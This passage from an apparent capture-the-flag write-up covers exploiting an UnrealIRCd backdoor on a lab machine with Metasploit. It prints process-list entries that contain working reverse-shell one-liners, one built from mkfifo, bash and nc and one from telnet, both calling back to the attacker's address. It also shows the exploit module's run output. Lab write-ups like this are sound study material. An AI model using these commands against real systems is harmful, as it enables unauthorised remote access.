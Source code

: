 While I was on the box, I saw myself in the process list:

    
    
    ircd      3670  0.0  0.0   2276   596 ?        S    08:33   0:00 sh -c AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.14 443 >/tmp/f
    

I got curious as to what the payload from metasploit might look like. I fired
up metasploit and got ready to run the exploit:

    
    
    msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > options
    
    Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):
    
       Name    Current Setting  Required  Description
       ----    ---------------  --------  -----------
       RHOSTS  10.10.10.117     yes       The target address range or CIDR identifier
       RPORT   6697             yes       The target port (TCP)
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic Target
    

Now I run it, and get a shell:

    
    
    msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > run
    
    [*] Started reverse TCP double handler on 10.10.14.14:4444 
    [*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
        :irked.htb NOTICE AUTH :*** Looking up your hostname...
    [*] 10.10.10.117:6697 - Sending backdoor command...
    [*] Accepted the first client connection...
    [*] Accepted the second client connection...
    [*] Command: echo DklVGHbcoUDn6OCZ;
    [*] Writing to socket A
    [*] Writing to socket B
    [*] Reading from sockets...
    [*] Reading from socket A
    [*] A: "DklVGHbcoUDn6OCZ\r\n"
    [*] Matching...
    [*] B is input...
    [*] Command shell session 1 opened (10.10.14.14:4444 -> 10.10.10.117:49955) at 2019-04-04 09:30:17 -0400
    
    id
    uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
    

A new entry shows up in the process list:

    
    
    ircd      4873  0.0  0.0   2276    72 ?        S    09:20   0:00 sh -c (sleep 4054|telnet 10.10.14.14 4444|while : ; do sh && break; done 2>&1|telnet 10.10.14.14 4444 >/dev/null 2>&1 &)
    